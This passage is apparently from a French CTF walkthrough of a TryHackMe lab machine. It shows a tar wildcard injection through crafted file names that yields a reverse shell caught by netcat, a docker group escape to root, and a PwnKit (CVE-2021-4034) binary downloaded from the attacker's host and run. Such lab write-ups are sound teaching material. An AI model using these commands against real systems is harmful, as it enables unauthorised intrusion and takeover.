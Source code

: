```
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
En parallele, on lance netcat pour me mettre en écoute sur le port 1234:
```
nc -lnvp 1234
```
Puis je lance le script en tant que **michael**
```
sudo -u michael /opt/backups/backup.sh
```
et nous voila avec le shell de michael
```
listening on [any] 1234 ...
connect to [10.11.50.195] from (UNKNOWN) [10.10.187.172] 44240
michael@the-marketplace:/opt/backups$
```
# Privesc to root !
L'user **michael** fait parti du groupe docker, on peux donc pop un shell:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
et nous voila root:
```
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```
Le flag ce trouve dans **/root/root.txt** comme d'habitude :)
```
THM{d4***********************2}
```

# ROOT CHEATMOD LOL !
La VM est vulnérable a la CVE-2021-4034:
```
jake@the-marketplace:/tmp$ wget 10.11.50.195/PwnKit
--2023-12-01 11:08:20--  http://10.11.50.195/PwnKit
Connecting to 10.11.50.195:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit                                100%[======================================================================>]  17.62K  --.-KB/s    in 0.05s   

2023-12-01 11:08:20 (380 KB/s) - ‘PwnKit’ saved [18040/18040]

jake@the-marketplace:/tmp$ chmod +x PwnKit
jake@the-marketplace:/tmp$ ./PwnKit 
root@the-marketplace:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1000(jake)
```
